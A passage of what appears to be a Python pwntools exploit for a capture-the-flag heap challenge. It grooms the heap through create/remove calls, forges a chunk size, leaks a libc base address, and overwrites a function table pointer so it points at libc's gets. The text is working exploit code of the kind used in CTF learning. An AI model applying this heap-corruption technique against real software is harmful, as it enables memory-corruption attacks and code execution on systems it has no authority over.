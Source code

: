 ```python
    exit(0)

create("c\x00", "\x00", 0x400, 0x400)
create("b\x00", "\x00", sz-0x8, sz-0x8)

remove("c\x00", 0x821)

next_addr = chunk_addr + sz*2

if new_addr - next_addr > 0x10000:
    exit(0)

remove("z\x00", 0x400)
remove("z\x00", 0x18)
remove("z\x00", 0x18)
print("Allocating until next is overlap")
while next_addr < new_addr - 0x40:
    if not args.LOCAL:
        print("Tick")
    if new_addr - next_addr > 0x440:
        remove("z\x00", 0x400-8)
        next_addr += 0x400
    else:
        remove("z\x00", 0x18)
        next_addr += 0x20

payload = b"A"*0x18
payload += p16(0x501)
create("n\x00",  payload + b"\x00", 0x100)

remove("z\x00", 0x38)
create("la\x00", "\x00",0x400, 0x400)
remove("z\x00", 0x400)
remove("z\x00", 0x400)
create("m", b"\x00", 0x38)

create("d", b"\x00", 0x400)

show("d")
leak = io.recvuntil("C")[-6:-1]
leak = leak.ljust(0x8, b'\x00')
leak = u64(leak) << 8

libc.address = leak - 0x1f7100

print("Libc leak: ", hex(libc.address))

func_table = heap_base + 0x2a0

print("Func table: ", hex(func_table))

create("e\x00", b"\x00", 0x400, 0x400)

print("Next addr: ", hex(next_addr))
payload = b"B"*0x20
payload += p64(mask(func_table-0x10, next_addr+0x40))
payload = payload[:-1]
create("f", payload, 0x100)

remove("g\x00", 0x400)

payload = b"A"*0x10
payload += p64(libc.sym['gets'])[:-1]
```